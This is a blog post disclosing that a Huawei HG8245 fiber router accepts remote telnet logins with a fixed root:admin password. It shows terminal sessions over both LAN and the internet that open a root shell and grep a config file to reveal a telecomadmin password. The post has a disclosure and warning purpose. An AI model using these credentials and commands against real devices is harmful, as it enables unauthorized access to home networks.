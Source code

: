 ```yaml
---
layout: post
title:  HG8245 - Internet Backdoor and Remote Access
author: eka
tags:
- HG8245
- Huawei
- ONT
- Wifi Router
---
```


Hackers are very unlikely to break in to SOHO network from serial port, like in [this post](/2015/05/07/hg8245-root-password-to-reveal-hidden-menu.html). This post is showing you that HG8245 can be exploited to get root access from the internet. The root password is permanently stored in the flash ROM and cannot be changed.

The setup was very easy. One computer was connected to HG8245 through a LAN cable. Then I ran telnet and use root:admin access. Voila, connection was established! The next commmand was easy, call the <code>shell</code>.

<!--more-->

<pre><code>telnet 192.168.1.1
Trying 192.168.1.1...
Connected to 192.168.1.1.
Escape character is '^]'.

Welcome Visiting Huawei Home Gateway
Copyright by Huawei Technologies Co., Ltd.

Login:root
Password:*****
WAP>shell

BusyBox v1.4.1 (2011-07-29 10:25:20 HKT) Built-in shell (ash)
Enter 'help' for a list of built-in commands.

WAP(Dopra Linux) # grep telecomadmin /mnt/jffs2/hw_ctree.xml
&lt;X_HW_WebUserInfoInstance InstanceID="2" UserName="telecomadmin" Password="nE7jA%5m" UserLevel="0" Enable="1"/&gt;
WAP(Dopra Linux) # </code></pre>

Alright... alright... probably because it is wired directly to LAN. What about telnetting from the internet? First, connect the HG8245 to your ISP provider and find its IP address. Then telnetting...

<pre><code>telnet 183.x.x.x
Trying 183.x.x.x...
Connected to 183.x.x.x.
Escape character is '^]'.

Welcome Visiting Huawei Home Gateway
Copyright by Huawei Technologies Co., Ltd.

Login:root
Password:*****
WAP>shell

BusyBox v1.4.1 (2011-07-29 10:25:20 HKT) Built-in shell (ash)
Enter 'help' for a list of built-in commands.

WAP(Dopra Linux) # grep telecomadmin /mnt/jffs2/hw_ctree.xml
&lt;X_HW_WebUserInfoInstance InstanceID="2" UserName="telecomadmin" Password="nE7jA%5m" UserLevel="0" Enable="1"/&gt;
WAP(Dopra Linux) # </code></pre>

Unbelievable! Super scary! Too easy to break in! Anyone owns one of this ONT should try to upgrade to the latest firmware. Better yet, install OpenWrt!
